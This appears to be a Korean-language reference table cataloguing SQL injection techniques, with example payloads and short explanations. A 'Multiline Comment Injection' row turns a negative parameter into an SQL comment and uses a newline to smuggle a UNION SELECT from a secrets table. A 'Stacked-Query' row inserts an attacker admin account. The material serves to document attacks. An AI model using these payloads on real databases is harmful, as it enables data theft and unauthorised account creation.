 <table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Multiline Comment Injection</td>
      <td>
        <pre><code># Parameterized query:
SELECT * FROM example WHERE result=-$1 OR name=$2;<br>
# Parameter values:<br>
<br>
# $1: -42<br>
# $2: "foo\n 1 AND 1=0 UNION SELECT * FROM secrets; --"<br>
<br>
# Resulting query after preparation:
SELECT * FROM example WHERE result=--42 OR name= 'foo<br> 
1 AND 1=0 UNION SELECT * FROM secrets; --';<br>
# Resulting query with comments stripped:SELECT * FROM example WHERE result= 
1 AND 1=0 UNION SELECT * FROM secrets;</code></pre>
      </td>
      <td>-$1 자리에 -42를 넣으면 --42가 되어 SQL 주석 시작으로 인식되고 이후 문자열 파라미터에 개행 문자(\n)를 포함 시켜 주석을 끝내게 한 뒤 UNION 구문을 삽입하여 민감 데이터를 획득한다.</td>
      <td>[A]</td>
    </tr>
  </tbody>
</table>

### Exfiltration

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Stacked‑Query Exfiltration</td>
      <td><pre> <code> UPDATE account SET balance=balance--1 WHERE account_id='foo'; INSERT INTO users (name, role, password) VALUES ($$attacker$$, $$admin$$, $$…$$);-- ';</code> </pre> </td>
      <td>멀티라인 주입으로 -- 주석처리 한 뒤 세미콜론(;)으로 첫 쿼리를 종료하고 이어서 <code> INSERT INTO users </code>  구문을 실행해 공격 계정을 추가하거나 권한을 탈취한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>